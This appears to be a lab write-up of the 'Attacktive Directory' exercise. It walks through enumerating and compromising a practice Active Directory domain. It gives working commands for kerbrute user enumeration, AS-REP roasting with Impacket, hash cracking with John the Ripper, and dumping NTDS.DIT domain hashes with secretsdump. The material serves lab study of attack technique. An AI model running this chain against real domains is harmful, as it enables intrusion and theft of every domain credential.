





# Attacktive Directory Room

- Performed nmap scan 

    `nmap -p- -A -nP 10.10.27.113`

    

- Found the DNS domain name `spookysec.local` 
- Used enum4linux to enumerate shares
  
  `enum4linux -a spookysec.local`

- Used `kerbrute` to check for valid usernames using `userlist.txt` 
  
  ```bash
  echo 10.10.27.113 spookysec.local > /etc/hosts
  kerbrute userenum -d spookysec.local --dc spookysec.local userlist.txt -t 100
  ```

  


## Abusing Kerberos
- Using the usernames we got from Kerbrute we are going to use Impacket's tool "GetNPUsers.py" to perform an attack method called ASREPRoasting
  
```bash
python3 ./GetNPUsers.py spookysec.local/svc-admin -no-pass 
```



- Used John the Ripper to crack the hash found for `svc-admin` account 

```bash
# kerbhash.txt simply contains the discovered hash from GetNPUsers.py 
john kerbhash.txt --wordlist=./passwordlist.txt
```





## Enumerating SMB Shares 
- used `smbclient` to find more shares 


- Used credentials and `smbclient` to connect to `backup` share 



- Then used `base64 decode <<<` to decode the string found
- Using the `backup` user credentials to dump NTDS.DIT


  ```bash
  python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc backup@spookysec.local 
  ```